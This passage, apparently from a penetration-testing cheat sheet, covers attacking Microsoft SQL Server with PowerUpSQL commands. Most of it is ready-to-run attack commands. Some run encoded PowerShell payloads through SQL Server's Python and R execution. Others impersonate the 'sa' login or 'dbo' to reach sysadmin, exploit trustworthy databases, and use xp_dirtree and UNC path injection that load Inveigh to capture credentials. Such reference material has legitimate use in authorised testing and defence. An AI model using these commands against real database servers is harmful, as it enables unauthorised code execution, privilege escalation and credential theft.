 ```ps1
Invoke-SQLOSCmdPython -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose
```

## R

```ps1
Invoke-SQLOSCmdR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose
```

## Audit Checks


### Find and exploit impersonation opportunities 

* Impersonate as: `EXECUTE AS LOGIN = 'sa'`
* Impersonate `dbo` with DB_OWNER
	```sql
	SQL> select is_member('db_owner');
	SQL> execute as user = 'dbo'
	SQL> SELECT is_srvrolemember('sysadmin')
	```

```ps1
Invoke-SQLAuditPrivImpersonateLogin -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose

# impersonate sa account
powerpick Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "EXECUTE AS LOGIN = 'sa'; SELECT IS_SRVROLEMEMBER(''sysadmin'')" -Verbose -Debug
```

## Find databases that have been configured as trustworthy

```ps1
Invoke-SQLAuditPrivTrustworthy -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose 
```

> The following audit checks run web requests to load Inveigh via reflection. Be mindful of the environment and ability to connect outbound.

```ps1
Invoke-SQLAuditPrivXpDirtree
Invoke-SQLUncPathInjection
Invoke-SQLAuditPrivXpFileexist
```

## Manual SQL Server Queries

### Query Current User & determine if the user is a sysadmin
